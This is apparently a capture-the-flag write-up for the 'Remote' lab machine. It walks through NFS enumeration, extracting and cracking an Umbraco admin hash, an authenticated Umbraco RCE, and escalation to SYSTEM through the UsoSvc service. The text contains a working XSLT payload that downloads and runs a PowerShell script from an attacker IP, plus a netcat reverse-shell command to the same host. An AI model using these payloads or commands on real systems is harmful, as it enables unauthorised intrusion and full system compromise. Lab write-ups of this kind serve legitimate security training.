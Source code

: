 # Remote

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.227.150
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-02 04:27 EDT
Warning: 10.129.227.150 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.227.150
Host is up (0.035s latency).
Not shown: 65026 closed tcp ports (conn-refused), 494 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
111/tcp   open  rpcbind
135/tcp   open  msrpc
445/tcp   open  microsoft-ds
2049/tcp  open  nfs
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49678/tcp open  unknown
49679/tcp open  unknown
49680/tcp open  unknown
```

### NFS

Network File System was publicly available on port 2049, and this is not a port I see often. This service can have very interesting files and permissions, so let's enumerate it via `showmount`.&#x20;

```
$ showmount -e 10.129.227.150
Export list for 10.129.227.150:
/site_backups (everyone)
```

We can mount onto this and view the files inside:

```
$ sudo mount -t nfs 10.129.227.150:/site_backups /mnt/
$ ls -la
total 159
drwx------  2 nobody 4294967294  4096 Feb 23  2020 .
drwxr-xr-x 19 root   root       36864 Apr 22 05:16 ..
drwx------  2 nobody 4294967294    64 Feb 20  2020 App_Browsers
drwx------  2 nobody 4294967294  4096 Feb 20  2020 App_Data
drwx------  2 nobody 4294967294  4096 Feb 20  2020 App_Plugins
drwx------  2 nobody 4294967294    64 Feb 20  2020 aspnet_client
drwx------  2 nobody 4294967294 49152 Feb 20  2020 bin
drwx------  2 nobody 4294967294  8192 Feb 20  2020 Config
drwx------  2 nobody 4294967294    64 Feb 20  2020 css
-rwx------  1 nobody 4294967294   152 Nov  1  2018 default.aspx
-rwx------  1 nobody 4294967294    89 Nov  1  2018 Global.asax
drwx------  2 nobody 4294967294  4096 Feb 20  2020 Media
drwx------  2 nobody 4294967294    64 Feb 20  2020 scripts
drwx------  2 nobody 4294967294  8192 Feb 20  2020 Umbraco
drwx------  2 nobody 4294967294  4096 Feb 20  2020 Umbraco_Client
drwx------  2 nobody 4294967294  4096 Feb 20  2020 Views
-rwx------  1 nobody 4294967294 28539 Feb 20  2020 Web.config
```

We can go through each of the folders, and we would find an SDF file for Umbraco within `App_Data`, which normally contains hashes.

```
$ ls    
cache  Logs  Models  packages  TEMP  umbraco.config  Umbraco.sdf
```

If we use `strings` on it, we would find a load of input. At the top, it seems that there are SHA1 hashes present:

{% code overflow="wrap" %}
```
$ strings Umbraco.sdf
Administratoradmindefaulten-US
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32
```
{% endcode %}

The hash can be cracked via `john`.

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash 
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-AxCrypt"
Use the "--format=Raw-SHA1-AxCrypt" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-Linkedin"
Use the "--format=Raw-SHA1-Linkedin" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "ripemd-160"
Use the "--format=ripemd-160" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "has-160"
Use the "--format=has-160" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 128/128 AVX 4x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
baconandcheese   (?)     
1g 0:00:00:00 DONE (2023-05-02 04:34) 1.538g/s 15113Kp/s 15113Kc/s 15113KC/s baconandchipies1..baconandcabbage
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed. 
```

So now we have some credentials at least.

### Umbraco RCE

There were hints that Umbraco was used to host the sites, so let's view port 80. It seems to be a blog page:

<figure><img src="../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

The login page for the website is located at the `/Umbraco` directory. We can login with the credentials and email we found earlier.

<figure><img src="../../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

After logging in, we can enumerate the version that it is running.

<figure><img src="../../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

This version of Umbraco is vulnerable to an Authenticated RCE exploit:

```
$ searchsploit umbraco  
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Umbraco CMS - Remote Command Execution (Metasploit)        | windows/webapps/19671.rb
Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution | aspx/webapps/46153.py
```

We can use the PoC for the first one, and edit it for this machine.

```python
payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
{ string cmd = "-c iex (iwr http://10.10.14.13/rev.ps1 -usebasicparsing)"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "powershell.exe"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet> ';

login = "admin@htb.local";
password="baconandcheese";
host = "http://10.129.227.150";
```

Take note of the `cmd` and `FileName` parameter in the `payload` variable. In my case I just used Powershell to download and execute a reverse shell script.

<figure><img src="../../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### PowerUp

We can first enumerate our privileges as the user:

```
PS C:\windows\tasks> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disable
```

We see that we have a ton of privileges, and most importantly SeImpersonatePrivilege is enabled. This means that we probably have some cotnrol over services and this could be used for PE. I used `PowerUp.ps1` to exploit this system.&#x20;

```
PS C:\windows\tasks> wget 10.10.14.13:8000/powerup.ps1 -O powerup.ps1
PS C:\windows\tasks> . .\powerup.ps1
PS C:\windows\tasks> Invoke-AllChecks


Privilege   : SeImpersonatePrivilege
Attributes  : SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
TokenHandle : 1580
ProcessId   : 4156
Name        : 4156
Check       : Process Token Privileges

ServiceName   : UsoSvc
Path          : C:\Windows\system32\svchost.exe -k netsvcs -p
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'UsoSvc'
CanRestart    : True
Name          : UsoSvc
Check         : Modifiable Services

UnattendPath : C:\Windows\Panther\Unattend.xml
Name         : C:\Windows\Panther\Unattend.xml
Check        : Unattended Install Files
```

We have control over the `UsoSvc` service. With this, we can run commands as the SYSTEM user. All we need to do is download `nc.exe` to the machine and run it as the administrator.

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">wget 10.10.14.13/nc64.exe -O nc.exe
<strong>Invoke-ServiceAbuse -ServiceName 'UsoSvc' -Command 'C:\Windows\Tasks\nc.exe 10.10.14.13 4444 -e cmd.exe'
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/image (10) (5).png" alt=""><figcaption></figcaption></figure>

Rooted!
